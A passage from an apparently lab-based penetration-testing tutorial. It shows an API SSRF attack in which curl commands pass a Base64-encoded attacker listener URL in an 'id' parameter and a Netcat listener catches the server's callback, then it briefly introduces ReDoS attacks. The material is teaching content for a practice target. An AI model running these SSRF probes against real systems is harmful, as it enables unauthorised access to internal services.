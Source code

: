 Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.

```shell
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}

```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.

```shell
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"

```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

```shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close

```

As time allows, try to provide APIs with input in various formats/encodings.


# Regular Expression Denial of Service (ReDoS)

* * *

Suppose we have a user that submits benign input to an API. On the server side, a developer could match any input against a regular expression. After a usually constant amount of time, the API responds. In some instances, an attacker may be able to cause significant delays in the API's response time by submitting a crafted payload that tries to exploit some particularities/inefficiencies of the regular expression matching engine. The longer this crafted payload is, the longer the API will take to respond. Exploiting such "evil" patterns in a regular expression to increase evaluation time is called a Regular Expression Denial of Service (ReDoS) attack.

Let us assess an API that is vulnerable to ReDoS attacks together.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.
